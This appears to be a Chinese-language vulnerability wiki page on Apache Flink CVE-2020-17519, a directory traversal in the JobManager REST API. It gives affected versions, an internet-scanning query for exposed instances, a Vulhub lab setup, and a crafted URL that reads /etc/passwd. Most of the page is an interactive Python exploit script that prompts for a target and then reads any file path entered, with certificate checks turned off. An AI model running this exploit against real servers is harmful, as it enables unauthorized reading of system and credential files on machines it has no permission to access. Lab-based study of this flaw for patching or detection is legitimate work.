


Apache Flink 目录遍历漏洞 CVE-2020-17519¶
漏洞描述¶
2021 年 01 月 06 日，360CERT 监测发现 Apache Flink 发布了 Apache Flink 目录穿越漏洞 的风险通告，漏洞编号为 CVE-2020-17518,CVE-2020-17519，漏洞等级：高危，漏洞评分：8.5。
远程攻击者通过 REST API 目录遍历，可造成 文件读取/写入 的影响。
Apache Flink 1.11.0 中引入的一项更改（也在 1.11.1 和 1.11.2 中发布）允许攻击者通过 JobManager 进程的 REST 接口读取 JobManager 本地文件系统上的任何文件。
参考：
- https://github.com/apache/flink/commit/b561010b0ee741543c3953306037f00d7a9f0801
- https://nvd.nist.gov/vuln/detail/CVE-2020-17519
漏洞影响¶
Apache Flink 1.11.0
Apache Flink 1.11.1
Apache Flink 1.11.2
网络测绘¶
app="Apache Flink"
环境搭建¶
Vulhub 执行以下命令启动 Apache Flink jobmanager 1.11.2：
docker-compose up -d
Apache Flink 启动后，访问 http://your-ip:8081 查看主页。

漏洞复现¶
查看/etc/passwd：
http://xxx.xxx.xxx.xxx/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252fetc%252fpasswd

漏洞 POC¶
import requests
import sys
import json
from requests.packages.urllib3.exceptions import InsecureRequestWarning
def title():
print('+------------------------------------------')
print('+ \033[34mVersion: Apache Flink 1.11.0-1.11.2 \033[0m')
print('+ \033[36m使用格式: python3 CVE-2020-17519.py \033[0m')
print('+ \033[36mUrl >>> http://xxx.xxx.xxx.xxx \033[0m')
print('+ \033[36mFile >>> /etc/passwd \033[0m')
print('+------------------------------------------')
def POC_1(target_url, file_name):
file_name = file_name.replace("/", "%252f")
vuln_url = target_url + "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..{}".format(file_name)
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
}
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.get(url=vuln_url, timeout=10, verify=False, headers=headers)
print("\033[32m[o] 请求URL ： {}\033[0m".format(vuln_url))
if "root" in response.text:
print("\033[32m[o] 目标 {} 存在漏洞,成功读取 /etc/passwd ，响应为:\n{}\033[0m".format(target_url, response.text))
else :
print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
sys.exit(0)
except Exception as e:
print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
sys.exit(0)
def POC_2(target_url, file_name):
file_name_re = file_name.replace("/", "%252f")
vuln_url = target_url + "/jobmanager/logs/..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..%252f..{}".format(file_name_re)
headers = {
"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
}
try:
requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
response = requests.get(url=vuln_url, timeout=10, verify=False, headers=headers)
print("\033[32m[o] 请求URL ： {}\033[0m".format(vuln_url))
if "error" not in response.text:
print("\033[32m[o] 目标 {} 存在漏洞,成功读取 {} ，响应为:\n{}\033[0m".format(target_url, file_name, response.text))
else :
print("\033[31m[x] 目标文件{}读取失败\033[0m".format(file_name))
except Exception as e:
print("\033[31m[x] 目标Url漏洞利用失败\033[0m")
sys.exit(0)
if __name__ == '__main__':
title()
target_url = str(input("\033[35mPlease input Attack Url\nUrl >>> \033[0m"))
file_name = "/etc/passwd"
POC_1(target_url, file_name)
while True:
file_name = input("\033[35mFile >>> \033[0m")
if file_name == "exit":
sys.exit(0)
else:
POC_2(target_url, file_name)